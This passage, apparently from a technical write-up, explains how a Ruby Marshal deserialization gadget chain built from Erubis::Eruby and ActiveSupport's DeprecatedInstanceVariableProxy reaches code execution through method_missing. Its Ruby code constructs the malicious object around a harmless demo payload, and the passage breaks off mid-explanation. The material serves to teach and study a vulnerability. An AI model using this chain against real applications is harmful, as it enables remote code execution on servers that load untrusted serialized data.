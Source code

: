 ## Code Execution Explained

For our malicious code to trigger, the vulnerable application needs to:

1. Load the serialized object, like this: ```Marshal.load()```
2. Use the serialized object.

The second step needs more elaboration here. In order to trigger code execution, the vulnerable
application can call either ```method_missing``` or ```#inspect``` on the malicious serialized object.

### Code Execution via #method_missing

The way to trigger ```#method_missing``` is by **using pretty much any valid method** on the
malicious object.

However, there is sort of a catch: you have to make sure the ```@deprecator``` instance
variable isn't nil. If it is, then you have to find a class or module that also defines a ```#warn```
method, and fake it:

```ruby
module Erubis;class Eruby;end;end
module ActiveSupport;module Deprecation;class DeprecatedInstanceVariableProxy;end;end;end
module FakeObject
  def warn(a, msg)
  end
end

erubis = Erubis::Eruby.allocate
erubis.instance_variable_set :@src, \\"puts 'Code execution, weeee!'; puts caller * \\\\\\"\\\\n\\\\\\"\\"

fake_obj = Object.allocate
fake_obj.extend(FakeObject)

proxy = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.allocate
proxy.instance_variable_set :@instance, erubis
proxy.instance_variable_set :@method, :result
proxy.instance_variable_set :@deprecator, fake_obj
```

The vulnerable application basically has the real "FakeObject":

```ruby
module FakeObject
  def warn(a, msg)
  end
end

data = Marshal.load(dump)
data['exploit'].to_s
```

In the above example, when ```#to_s``` is called, ```#method_missing``` gets triggered:
